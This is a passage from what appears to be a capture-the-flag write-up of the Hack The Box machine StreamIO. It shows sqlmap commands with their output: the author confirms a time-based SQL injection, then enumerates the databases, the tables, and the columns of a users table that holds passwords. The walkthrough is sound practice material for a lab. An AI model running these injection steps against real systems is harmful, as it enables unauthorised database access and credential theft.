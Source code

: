 ```sh
[22:34:48] [INFO] the back-end DBMS is Microsoft SQL Server
web server operating system: Windows 10 or 2019 or 2016
web application technology: Microsoft IIS 10.0, PHP 7.2.26
back-end DBMS: Microsoft SQL Server 2019
[22:34:48] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/streamio.htb'
[*] ending @ 22:34:48 /2022-06-26/
```

SQLMap has identified a time based vulnerability. If you're interested in learning more on SQL injection I covered a good TryHackMe room [here](https://pencer.io/ctf/ctf-thm-sqhell/) with all different types to play with. Back to this box, let's get a list of databases:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req --dbs
<SNIP>
[22:59:12] [INFO] retrieved: 
available databases [5]:
[*] model
[*] msdb
[*] STREAMIO
[*] streamio_backup
[*] tempdb
[*] ending @ 22:59:13 /2022-06-26/
```

The STREAMIO database sounds interesting as a starter, let's find the tables in it:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req --tables -D STREAMIO
<SNIP>
Database: STREAMIO
[2 tables]
+--------+
| movies |
| users  |
+--------+
[*] ending @ 23:01:52 /2022-06-26/
```

Let's look at the columns of the user table:

```sh
┌──(root㉿kali)-[~/htb/streamio]
└─# sqlmap -r streamio.req --columns -D STREAMIO -T users
<SNIP>
Database: STREAMIO
Table: users
[4 columns]
+----------+-------+
| Column   | Type  |
+----------+-------+
| id       | int   |
| is_staff | bit   |
| password | nchar |
| username | nchar |
+----------+-------+
[*] ending @ 23:07:11 /2022-06-26/
```
